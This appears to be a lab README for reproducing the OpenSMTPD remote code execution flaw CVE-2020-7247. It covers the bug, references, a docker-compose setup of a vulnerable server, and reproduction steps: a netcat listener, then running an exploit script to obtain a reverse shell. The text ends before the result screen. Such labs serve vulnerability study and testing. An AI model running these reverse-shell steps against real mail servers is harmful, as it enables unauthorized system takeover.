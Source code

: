 # OpenSMTPD Remote Code Execution Vulnerability (CVE-2020-7247)

OpenSMTPD is an smtp service program for unix operating systems (BSD, MacOS, GNU/Linux), following the RFC 5321 SMTP protocol. OpenSMTPD was originally developed for the OpenBSD operating system and is part of the OpenBSD project. Due to its open source properties, Distributed to other unix platforms. According to the ISC license, the software is free for everyone to use and reuse.

`CVE-2020-7247` is caused by OpenSMTPD's lax verification of the sender/recipient in the process of implementing RFC 5321.

On January 29, 2020, OpenSMTPD group officially submitted a fix for the `CVE-2020-7247` in the GitHub repository. After the repair, the corresponding version is `OpenSMTPD 6.6.2p1`.

**Reference：**

- https://www.qualys.com/2020/01/28/cve-2020-7247/lpe-rce-opensmtpd.txt
- https://www.exploit-db.com/exploits/47984
- https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-7247
- https://www.anquanke.com/post/id/197689
- （Vulnerable source code）https://github.com/OpenSMTPD/OpenSMTPD/releases/tag/6.6.1p1

## Start Vulnerability Application

Start a vulnerable OpenSMTPD through following command:

```
docker-compose up -d
```

If success, you will see the following results with using command: `nc <Target_IP> 8825 -v`  (`44dadcc5a6eb` is the container ID )

```
220 44dadcc5a6eb ESMTP OpenSMTPD
```

Vulnerability Reproduce

This vulnerability did not return anything, so let's get the reverse shell.

1. Create a listen on local host: `nc -lp <Listen_Port> `
2. Using `exp.py` to get shell: `python3 exp.py <Target_IP> 8825 <Listen_IP> <Listen_Port>`

If the exploit is successful, you will see the following screen:



